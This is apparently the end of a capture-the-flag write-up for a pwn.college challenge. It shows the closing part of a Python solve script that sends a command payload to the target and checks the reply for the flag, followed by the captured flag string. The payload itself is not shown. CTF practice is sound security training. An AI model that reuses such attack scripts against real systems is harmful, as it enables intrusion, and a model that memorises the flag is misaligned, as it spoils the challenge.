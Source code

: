 ```python
        for cmd, arg1, arg2 in payload:
            execute_cmd(target, cmd, arg1, arg2)

        response = target.recvall(timeout=0.1)

        if b"pwn.college{" in response:
            return True
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    target = launch()
    payload = construct_payload()

    if attack(target, payload):
        exit()


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{wDLulwEpEQfpi78_Z4CAniTrByQ.0lN3MDL5cTNxgzW}`
